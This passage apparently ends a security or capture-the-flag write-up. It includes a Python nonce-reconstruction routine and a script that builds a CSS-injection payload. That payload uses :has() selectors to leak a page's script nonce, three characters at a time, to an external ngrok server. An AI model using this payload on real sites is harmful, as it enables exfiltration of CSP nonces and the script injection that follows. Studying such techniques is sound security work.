 ```py
                # print("found: " + start_i)
                found += [i]
        if (len(found) == 0):
            # start over from latest backup
            if (len(backup) > 0):
                nonce = backup[-1][0]
                found = backup[-1][1]
                new_substr = backup[-1][2]
                backup = backup[:-1]
            else:
                print("no backup - aborting")
                break
        if (len(found) > 0):
            if (len(found) > 1):
                print("found more than one: " + str(found))
                backup += [[nonce, found[1:], new_substr]]
            remove_i = found[0]
            nonce += new_substr[remove_i][-1]

        # input("nonce: " + nonce)

    return nonce
```

We noticed that the tab crashes while loading that css, but the requests are sent to our server anyway.

## Sources

### CSS exploit

This is the script used in order to generate the CSS file:

```py
import itertools

charset = "abcdefghijklmnopqrstuvwxyz0123456789"

perms = list(map("".join, itertools.product(charset, repeat=3)))


with open("leak.css", "w") as f:
    for i, x in enumerate(perms):
        f.write(f""":has(script[nonce*="{x}"]){{--tosend-{x}: url(https://25de-37-160-34-111.ngrok-free.app/?x={x});}}""")


    data = ""
    print("loading")
    for x in perms:
        data += f"var(--tosend-{x}, none),"

    print("done")
    print("writing")
    
    f.write(("""
input{
background: %s
}
""" % data[:-1]))
```
